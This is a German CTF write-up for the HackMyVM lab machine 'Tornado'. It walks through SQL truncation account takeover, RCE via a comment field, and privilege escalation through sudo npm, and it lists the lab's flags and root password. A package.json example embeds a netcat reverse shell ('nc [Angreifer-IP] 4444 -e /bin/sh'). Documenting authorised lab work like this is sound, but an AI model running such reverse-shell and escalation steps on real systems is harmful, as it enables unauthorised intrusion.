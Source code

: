 # Tornado - HackMyVM (Medium)
 
![Tornado.png](Tornado.png)

## Übersicht

*   **VM:** Tornado
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Tornado)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 10. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Tornado_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Tornado"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration einer Webanwendung `/bluesky` auf Port 80. Eine SQL Truncation Attacke auf die Registrierungsseite (`signup.php`) ermöglichte die Übernahme des `jacob`-Accounts durch Setzen eines neuen Passworts (`1234`). Nach dem Login als `jacob` wurde eine RCE-Schwachstelle in einem Kommentarfeld auf `contact.php` ausgenutzt, um eine Python-Reverse-Shell als `www-data` zu erhalten. Als `www-data` zeigte `sudo -l`, dass `/usr/bin/npm` als Benutzer `catchme` ausgeführt werden durfte. Durch Erstellen einer manipulierten `package.json`-Datei und Ausführen von `npm run-script` wurde eine Reverse Shell als `catchme` erlangt. Die User-Flag wurde in dessen Home-Verzeichnis gefunden, ebenso ein Skript `enc.py`. Die Analyse dieses Skripts (im Log nicht detailliert, aber impliziert) führte zum Root-Passwort `idkrootpassword`, was den direkten Login als `root` via `su` ermöglichte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `nikto`
*   `Burp Suite`
*   `nc` (netcat)
*   `python3`
*   `stty`
*   `sudo`
*   `cd`
*   `mkdir`
*   `pico` (oder anderer Texteditor wie `nano`/`vi`)
*   `npm`
*   `id`
*   `pwd`
*   `ls`
*   `cat`
*   `su`
*   Standard Linux-Befehle (`export`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Tornado" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.110`).
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH) und 80 (HTTP - Apache 2.4.38).
    *   `gobuster` auf Port 80 fand das Verzeichnis `/bluesky/`.
    *   Ein weiterer `gobuster`-Scan auf `/bluesky/` offenbarte eine Webanwendung mit Login (`login.php`) und Registrierung (`signup.php`).
    *   Hinweise auf Benutzernamen (`jacob@tornado` etc.) wurden (implizit) gefunden.

2.  **Initial Access (SQL Truncation & RCE zu `www-data`):**
    *   Durchführung einer SQL Truncation Attacke auf `http://tornado.hmv/bluesky/signup.php`. Ein Benutzer `jacob\` (oder ähnlich, manipuliert zu `jacob%5c1`) wurde mit dem Passwort `1234` registriert, was das Passwort des bestehenden `jacob`-Accounts überschrieb.
    *   Login als `jacob` mit Passwort `1234`.
    *   Ausnutzung einer RCE-Schwachstelle im Kommentarfeld von `contact.php` durch Einfügen eines Python-Reverse-Shell-Payloads.
    *   Erlangung einer interaktiven Shell als `www-data`.

3.  **Privilege Escalation (von `www-data` zu `catchme` via `sudo npm`):**
    *   `sudo -l` als `www-data` zeigte: `(catchme) NPASSWD: /usr/bin/npm`.
    *   Erstellung eines Verzeichnisses `/tmp/cool` und einer `package.json`-Datei darin mit einem Skript, das eine Reverse Shell startete:
        ```json
        {
          "scripts": {
            "cool": "nc [Angreifer-IP] 4444 -e /bin/sh"
          }
        }
        ```
    *   Ausführung von `sudo -u catchme npm run-script cool` aus `/tmp/cool/`.
    *   Erlangung einer interaktiven Shell als `catchme`.
    *   User-Flag `HMVkeyedcaesar` in `/home/catchme/user.txt` gelesen. Im selben Verzeichnis wurde `enc.py` gefunden.

4.  **Privilege Escalation (von `catchme` zu `root`):**
    *   *Der genaue Mechanismus zur Ableitung des Root-Passworts aus `enc.py` ist im Log nicht detailliert, wird aber impliziert.*
    *   Das Root-Passwort wurde als `idkrootpassword` identifiziert.
    *   Wechsel zum Root-Benutzer mittels `su root` und dem Passwort `idkrootpassword`.
    *   Erlangung einer Root-Shell.
    *   Root-Flag `HMVgoodwork` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **SQL Truncation Attack:** Eine Schwachstelle im Registrierungsprozess ermöglichte die Übernahme eines bestehenden Benutzerkontos durch Überschreiben des Passworts.
*   **Remote Code Execution (RCE) via unsanitisierter Eingabe:** Ein Kommentarfeld erlaubte die Ausführung von serverseitigem Code (Python).
*   **Unsichere `sudo`-Konfiguration (`npm`):** Die Erlaubnis, `npm` als anderer Benutzer auszuführen, ermöglichte die Ausführung beliebigen Codes über manipulierte `package.json`-Skripte.
*   **Informationsleck durch Skript (impliziert `enc.py`):** Ein Skript im Home-Verzeichnis eines Benutzers enthielt oder ermöglichte die Ableitung des Root-Passworts.

## Flags

*   **User Flag (`/home/catchme/user.txt`):** `HMVkeyedcaesar`
*   **Root Flag (`/root/root.txt`):** `HMVgoodwork`

## Tags

`HackMyVM`, `Tornado`, `Medium`, `SQL Truncation`, `RCE`, `Python`, `sudo Exploitation`, `npm`, `Privilege Escalation`, `Linux`, `Web`
